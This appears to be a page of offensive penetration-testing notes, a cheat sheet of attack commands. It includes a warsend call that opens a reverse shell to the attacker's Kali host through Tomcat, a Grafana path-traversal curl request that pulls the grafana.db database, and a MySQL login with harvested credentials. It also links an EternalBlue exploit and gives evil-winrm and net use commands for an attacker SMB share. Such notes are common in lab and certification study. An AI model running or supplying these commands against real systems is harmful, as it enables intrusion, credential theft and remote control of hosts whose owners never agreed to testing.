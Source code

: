 [https://github.com/thewhiteh4t/warsend](https://github.com/thewhiteh4t/warsend)

```bash
./warsend.sh $kali_ip 443 $ip 8080 tomcat s3cret revshell
```

### Grafana Exploit

```bash
python3 50581.py -H http://$ip:3000
```

Read grafana creds

```bash
/etc/grafana/grafana.ini
```

Dump SQLite database

```bash
curl --path-as-is http://$ip:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```

Fire sqlitebrowser → right-click data_source for potential passwords and login through MySQL

```bash
mysql -u grafana -pP@ssw0rd! -h $ip
```

### EternalBlue Reads

[https://github.com/k4u5h41/MS17-010_CVE-2017-0143](https://github.com/k4u5h41/MS17-010_CVE-2017-0143)

```bash
git clone https://github.com/k4u5h41/MS17-010_CVE-2017-0143
```

[https://infosecwriteups.com/exploit-eternal-blue-ms17-010-for-windows-xp-with-custom-payload-fabbbbeb692f](https://infosecwriteups.com/exploit-eternal-blue-ms17-010-for-windows-xp-with-custom-payload-fabbbbeb692f)

[https://infosecwriteups.com/exploit-eternal-blue-ms17-010-for-window-7-and-higher-custom-payload-efd9fcc8b623](https://infosecwriteups.com/exploit-eternal-blue-ms17-010-for-window-7-and-higher-custom-payload-efd9fcc8b623)

### Evil-WINRM

```bash
evil-winrm -i comp.domain.com -u user -p pass
```

Share files

```bash
net use \\$kali_ip\EVILSHARE
cd \\$kali_ip\EVILSHARE
```
